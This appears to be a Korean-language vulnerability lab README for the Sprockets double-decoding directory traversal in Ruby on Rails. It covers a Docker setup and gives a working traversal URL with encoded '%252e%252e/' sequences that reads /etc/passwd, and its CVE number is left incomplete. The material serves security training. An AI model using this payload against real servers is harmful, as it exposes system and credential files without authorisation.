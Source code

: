 # Ruby on rails 디렉토러 접근 취약점 (CVE-2018-)

Ruby On Rails는 개발 환경에서 정적 파일 서버로 Sprockets를 사용하는 루비 웹 개발 프레임워크로 널리 알려져 있으며,
정적 리소스 파일을 컴파일하여 배포하는 루비 라이브러리인 Sprockets는 정적 리소스 파일을 컴파일하고 배포하는 루비 라이브러리다.

Sprockets 3.7.1 이하 버전에는 2차 디코딩으로 인한 디렉토리 접근 취약성이 있다. 공격자는 %252e%252e/를 사용하여 루트 디렉터리에 액세스하고 대상 서버의 모든 파일을 읽거나 실행할 수 있다.

참고 링크 : 
- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## 환성 설정
다음과 같은 명령어를 입력 : 

```docker compose up -d```


## 실행
/etc/passwd 파일이 허용된 디렉토리에 없기 때문에 http://your-ip:3000/assets/file:%2f%2f/etc/passwd를 직접 방문하여 오류를 발생시킨다.
![1](https://github.com/le-e-e/whitehat-school-vulhub/assets/51049963/7ecc364c-20a7-445c-820b-27cf7e788e78)
오류 페이지별로 허용된 디렉토리 목록을 가져올 수 있다. /usr/src/blog/app/assets/images와 같은 디렉토리 중 하나를 선택한 후 %252e%252e/를 사용하여 상위 디렉토리로 이동한 후 /etc/passwd 파일을 열람한다.

```http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd```
![2](https://github.com/le-e-e/whitehat-school-vulhub/assets/51049963/055cee2b-794e-4d71-a6c8-17b7555eaeff)

